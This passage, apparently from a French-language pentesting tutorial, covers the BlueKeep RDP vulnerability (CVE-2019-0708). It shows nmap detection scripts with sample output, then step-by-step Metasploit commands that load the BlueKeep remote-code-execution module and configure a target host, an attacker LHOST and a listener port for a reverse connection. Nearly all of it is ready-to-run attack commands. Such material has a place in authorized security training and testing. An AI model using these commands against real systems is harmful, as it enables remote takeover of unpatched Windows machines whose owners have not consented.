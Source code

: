 ### Scripts Nmap BlueKeep
```bash
# Script de détection BlueKeep
nmap -p3389 --script rdp-vuln-ms19-0708 target

# Avec verbose pour plus d'infos
nmap -p3389 --script rdp-vuln-ms19-0708 --script-args unsafe=1 target

# Sur port alternatif
nmap -p3333 --script rdp-vuln-ms19-0708 target
```

### Résultat détection BlueKeep
```bash
# Sortie positive (VULNÉRABLE) :
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
| rdp-vuln-ms19-0708:
|   VULNERABLE:
|   Remote Desktop Services Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2019-0708
|     Risk factor: Critical
|     Description:
|       A vulnerability exists in Remote Desktop Services

# Sortie négative (NON VULNÉRABLE) :
| rdp-vuln-ms19-0708:
|   NOT VULNERABLE:
|   Remote Desktop Services Remote Code Execution Vulnerability
```

---

## 🛠️ 3. Exploitation BlueKeep avec Metasploit

### Module BlueKeep RCE
```bash
# Lancement Metasploit
msfconsole -q

# Module d'exploitation BlueKeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show info
show options
```

### Configuration du module BlueKeep
```bash
# Configuration de base
set RHOSTS target_ip
set LHOST attacker_ip
set LPORT 4444

# Pour port RDP non-standard
set RPORT 3333

# Vérification configuration
show options
show targets
show payloads
```
